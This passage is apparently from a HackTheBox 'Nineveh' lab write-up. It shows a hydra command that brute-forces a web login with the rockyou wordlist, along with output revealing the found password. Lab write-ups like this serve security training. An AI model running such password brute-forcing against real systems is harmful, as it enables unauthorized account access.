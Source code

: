 There was nothing interesting on `searchsploit`. Let’s try using `hydra` to brute force the login again.

![db_attempt_login](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Nineveh/db_attempt_login.png?raw=true)

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# hydra -l shiro -P /usr/share/wordlists/rockyou.txt 10.10.10.43 -s 443 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password" -t 64
...
[443][http-post-form] host: 10.10.10.43   login: shiro   password: password123
1 of 1 target successfully completed, 1 valid password found
```
